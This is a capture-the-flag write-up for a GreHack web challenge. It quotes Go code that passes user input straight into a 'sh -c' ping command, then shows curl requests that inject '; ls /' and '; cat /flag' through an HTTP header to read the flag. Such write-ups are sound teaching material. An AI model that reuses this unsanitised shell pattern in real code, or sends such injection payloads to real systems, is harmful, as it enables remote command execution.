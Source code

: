 # Description

"Small app, big hole. You know the drill: go break it.
The challenge is accessible with this url."

# Solution

Inside ```index.html``` there's an option to ping another IP thant ours:

```html
<h3>Can I check another IP address than mine?</h3>
<p>Yes, set the HTTP header <code>Inspect-IP</code> with your client</p>
```

And the input is not properly sanitized:

```
func IsItDown(address string) (string, error) {
	ctx, cancel := context.WithTimeout(context.Background(), 200*time.Millisecond)
	defer cancel()

	pingCommand := fmt.Sprintf("ping -c 1 -W 150 %s", address)
	command := exec.CommandContext(ctx, "sh", "-c", pingCommand)
	trace, err := command.Output()
	return string(trace), err
}
```

So adding another command after the ping command argument is possible:

```bash
url -H "Inspect-IP: 8.8.8.8 ; ls /  /flag" https://0yp0oivpnun7jthof6si6foppfkmlf.challenge.grehack.fr/is-it-down
{"ip":"8.8.8.8 ; ls /  /flag","down":false,"trace":"PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.\n64 bytes from 8.8.8.8: icmp_seq=1 ttl=53 time=1.48 ms\n\n--- 8.8.8.8 ping statistics ---\n1 packets transmitted, 1 received, 0% packet loss, time 0ms\nrtt min/avg/max/mdev = 1.484/1.484/1.484/0.000 ms\n/flag\n\n/:\nbin\ndev\netc\nflag\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}%
```

```bash
curl -H "Inspect-IP: 8.8.8.8; cat /flag" https://0yp0oivpnun7jthof6si6foppfkmlf.challenge.grehack.fr/is-it-down
{"ip":"8.8.8.8; cat  /flag","down":false,"trace":"PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.\n64 bytes from 8.8.8.8: icmp_seq=1 ttl=53 time=1.41 ms\n\n--- 8.8.8.8 ping statistics ---\n1 packets transmitted, 1 received, 0% packet loss, time 0ms\nrtt min/avg/max/mdev = 1.409/1.409/1.409/0.000 ms\nGH19{challenges_for_the_ctf_will_not_be_that_easy}\n"}%
```

It's also possible to strip the IP address completely:

```
curl -H "Inspect-IP: ; cat  /flag" https://0yp0oivpnun7jthof6si6foppfkmlf.challenge.grehack.fr/is-it-down 
{"ip":"; cat  /flag","down":false,"trace":"GH19{challenges_for_the_ctf_will_not_be_that_easy}\n"}
```

flag = ```GH19{challenges_for_the_ctf_will_not_be_that_easy}```
